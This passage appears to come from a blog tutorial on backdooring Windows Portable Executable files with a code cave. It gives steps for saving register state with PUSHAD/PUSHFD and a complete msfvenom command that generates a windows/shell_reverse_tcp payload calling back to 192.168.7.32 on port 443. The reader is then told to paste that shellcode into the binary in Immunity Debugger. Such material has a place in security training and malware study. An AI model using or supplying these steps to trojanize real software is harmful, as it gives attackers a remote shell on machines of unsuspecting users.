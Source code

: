 <img src="/assets/img/post/2020-05-22-backdooring-portable-executables-(pe)/demo6.png" style="width: 75%" >

Before we begin to add our shellcode we need to save the state of the registers using the *PUSHAD* and *PUSHFD* instructions and place them at the top of our code cave. You can find more info about these instruction here https://en.wikipedia.org/wiki/X86_instruction_listings. Now we want to generate our shellcode using the command below.

>  msfvenom -p windows/shell_reverse_tcp LHOST=192.168.7.32 LPORT=443 -f hex -o shellcode.txt

<img src="/assets/img/post/2020-05-22-backdooring-portable-executables-(pe)/Shellcode.png" style="width: 75%" >

Now copy the hex and go back to Immunity Debugger and paste it below the *PUSHAD* and *PUSHFD* instructions.
